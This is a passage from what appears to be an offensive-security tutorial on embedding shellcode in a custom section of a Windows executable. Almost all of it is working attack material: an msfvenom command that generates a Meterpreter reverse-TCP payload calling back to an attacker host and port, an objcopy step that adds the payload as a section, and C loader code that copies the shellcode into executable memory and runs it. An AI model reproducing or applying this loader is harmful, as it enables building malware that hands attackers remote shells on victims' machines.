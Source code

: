 4\. we can add a **custom data** section to store the shellcode.

### Adding a Custom Data Section for Shellcode

**Overview**:  
In this method, a custom section is added to the binary (e.g., `.mydata`) where the shellcode is stored. The section is loaded into memory at runtime, and the shellcode can be executed directly.

#### Steps:

1\. **Generate Shellcode**: As before, generate the shellcode using a tool like `msfvenom`:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shellcode.bin
```

2\. **Add a Custom Section to the Binary**:

- Use a PE editor (e.g., **PE-bear, CFF Explorer**) or a script to add a new section.
- Name the section (e.g., `.mydata`) and embed the shellcode into it.

Example with `objcopy` (Linux):

```
objcopy --add-section .mydata=shellcode.bin payload.exe
```

3\. **Extract and Execute Shellcode**: Write code to locate the custom section in memory and execute the shellcode:

```
#include <windows.h>
extern char my_shellcode_start;
extern char my_shellcode_end;

void ExecuteShellcode() {
// Calculate the shellcode size
size_t shellcodeSize = &my_shellcode_end - &my_shellcode_start;

// Allocate memory for shellcode
void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, &my_shellcode_start, shellcodeSize);

// Execute shellcode
((void(*)())exec)();
}

int main() {
ExecuteShellcode();
return 0;
}
```

4\. **Compile with Linker Options**: Use a linker to specify the custom section:

```
gcc -o payload.exe payload.c -Wl,--section-start,.mydata=0x400000
```
